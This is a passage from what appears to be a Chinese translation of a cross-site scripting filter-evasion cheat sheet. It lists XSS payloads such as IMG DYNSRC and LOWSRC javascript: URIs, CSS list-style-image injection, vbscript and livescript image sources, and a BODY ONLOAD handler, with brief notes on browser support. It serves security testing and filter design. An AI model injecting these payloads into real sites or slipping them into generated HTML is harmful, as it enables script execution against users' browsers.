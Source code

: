 ```
<IMG DYNSRC="javascript:alert('XSS')">
```

* * *

### IMG lowsrc（低分辨率图片）

```
<IMG LOWSRC="javascript:alert('XSS')">
```

* * *

### List-style-image

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

* * *

### List-style-image

为带有符号的列表嵌入自定义图片的符号。它是只能工作在ie渲染引擎因为javascript指令。这不是一个特别有用的xss向量。

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

* * *

### VBscript in an image

```
<IMG SRC='vbscript:msgbox("XSS")'>
```

* * *

### Livescript (仅适用于老版本的Netscape)

```
<IMG SRC="livescript:[code][/code]">
```

* * *

### BODY 标签

这个方法不需要使用任何"javascript:" or "`<SCRIPT...`" 的变体去实现xss攻击。Dan Crowley特别指出你可以额外的加入一个空格在等号之前("onload=" != "onload ="):

```
<BODY ONLOAD=alert('XSS')>
```

* * *

### 事件处理程序
